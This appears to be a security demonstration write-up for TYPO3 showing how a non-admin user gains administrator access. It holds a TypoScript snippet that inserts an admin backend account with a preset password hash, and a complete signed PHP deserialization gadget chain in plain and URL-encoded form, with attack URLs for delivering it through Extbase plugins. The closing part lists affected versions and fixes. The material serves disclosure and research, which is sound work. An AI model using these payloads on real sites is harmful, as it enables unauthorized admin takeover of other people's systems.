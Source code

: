 # Create Admin Account

This scenario describes how non-admin users can "upgrade" their privileged to have admin access.

* use hashed password using MD5 (algorithm does not matter, MD5 is just plain simple)
* `openssl passwd -1 -salt 123456 password`
* `password` -> `$1$123456$qqQvjw0PqIk7otmzNsUIN0`

## Technique TypoScript

```
something.stdWrap {
    cObject = TEXT
    cObject {
        value = be_users
        preUserFunc = TYPO3\CMS\Extbase\Persistence\Generic\Storage\Typo3DbBackend->addRow
        preUserFunc {
            username = h4ck3r31,
            password = $1$123456$qqQvjw0PqIk7otmzNsUIN0
            admin = 1
        }
    }
}
```

### Security Vulnerability

* valid backend sessions required
* TypoScript cannot be defined by non-admin users per default
* extensions allowing to define TypoScript as content element open this **vulnerability**

## Technique Insecure Deserialization, by-passing HMAC verification

By knowing sensitive `encryptionKey` (which is
`f30230987c323b8f81a0ab9fe5b690fd0ba3fb8161f4027221a6b6aa4c50ce629049b7d30c3681f3a9e2031f1dc401e6` for this demo project)
it is possible to invoke signed, but insecure deserialization.

**Steps**

* prepare insecure `PAYLOAD`
  + using `\GuzzleHttp\Psr7\FnStream` as callback
  + using `\TYPO3\CMS\IndexedSearch\Controller\SearchController` as trigger
* prepare malicious TypoScript creating a backend account
* serialize and sign payload with HMAC (based on `encryptionKey`)

**Plain**

```
O:24:"GuzzleHttp\Psr7\FnStream":1:{s:9:"_fn_close";a:2:{i:0;O:51:
"TYPO3\CMS\IndexedSearch\Controller\SearchController":2:{s:20:
"*typoScriptService";O:43:"TYPO3\CMS\Core\TypoScript\TypoScriptService"
:0:{}s:11:"*settings";a:1:{s:7:"results";a:1:{s:20:"summaryCropSignifier"
;a:1:{s:7:"cObject";a:3:{s:20:"_typoScriptNodeValue";s:4:"TEXT";s:5:
"value";s:8:"be_users";s:11:"preUserFunc";a:4:{s:20:"_typoScriptNodeValue"
;s:68:"TYPO3\CMS\Extbase\Persistence\Generic\Storage\Typo3DbBackend->addRow"
;s:8:"username";s:8:"h4ck3r31";s:8:"password";s:32:"$1$123456$qqQvjw0PqIk7otmzNsUIN0"
;s:5:"admin";i:1;}}}}}}i:1;s:10:"initialize";}}82b123396f51a2a274532ced52a6ed4a197ae278
```

**URL encoded** (ready for take-off)

```
O%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A1%3A%7Bs%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A51%3A
%22TYPO3%5CCMS%5CIndexedSearch%5CController%5CSearchController%22%3A2%3A%7Bs%3A20%3A
%22%00%2A%00typoScriptService%22%3BO%3A43%3A%22TYPO3%5CCMS%5CCore%5CTypoScript%5CTypoScriptService%22
%3A0%3A%7B%7Ds%3A11%3A%22%00%2A%00settings%22%3Ba%3A1%3A%7Bs%3A7%3A%22results%22%3Ba%3A1%3A%7Bs%3A20%3A%22summaryCropSignifier%22
%3Ba%3A1%3A%7Bs%3A7%3A%22cObject%22%3Ba%3A3%3A%7Bs%3A20%3A%22_typoScriptNodeValue%22%3Bs%3A4%3A%22TEXT%22%3Bs%3A5%3A
%22value%22%3Bs%3A8%3A%22be_users%22%3Bs%3A11%3A%22preUserFunc%22%3Ba%3A4%3A%7Bs%3A20%3A%22_typoScriptNodeValue%22
%3Bs%3A68%3A%22TYPO3%5CCMS%5CExtbase%5CPersistence%5CGeneric%5CStorage%5CTypo3DbBackend-%3EaddRow%22
%3Bs%3A8%3A%22username%22%3Bs%3A8%3A%22h4ck3r31%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%22%241%24123456%24qqQvjw0PqIk7otmzNsUIN0%22
%3Bs%3A5%3A%22admin%22%3Bi%3A1%3B%7D%7D%7D%7D%7D%7Di%3A1%3Bs%3A10%3A%22initialize%22%3B%7D%7D82b123396f51a2a274532ced52a6ed4a197ae278
```

### Attack

Using some Extbase extension to trigger our payload.

**Frontend**

`ext:form` only works when having a valid backend session, plugins having an uncached default action work perfectly.
Using `&no_cache=1` might not work in all scenarios (but, it does here in this demo project).

```
http://typo3v9-hack.ddev.local/index.php?id=38&no_cache=1&tx_form_formframework[__trustedProperties]=PAYLOAD
```

**Backend**

No caching applied, but `&token=` has to be replaced with current XSRF token.

```
http://typo3v9-hack.ddev.local/typo3/index.php?route=%2Ffile%2FFilelistList%2F
&token=6d3ddff46fd38496f39fd6bd166540385c74c4ee&tx_filelist_file_filelistlist[__trustedProperties]=PAYLOAD
```

### Security Vulnerability

* `guzzlehttp/psr7`, explicitly raised in https://review.typo3.org/#/c/59516/
  + addressed in https://github.com/guzzle/psr7/commit/b27e0bdc20177262121f88a49d5bb135f3e589c0
  + composer scenarios affected until approx. December 2018
  + TYPO3 bundle (zip/tarball) scenarios affected until v8.7.22 and v9.5.3
* exposed `encryptionKey` is (currently) not know as vulnerability
  + if it was, report to security@typo3.org immediately
  + security severity would be **critical**

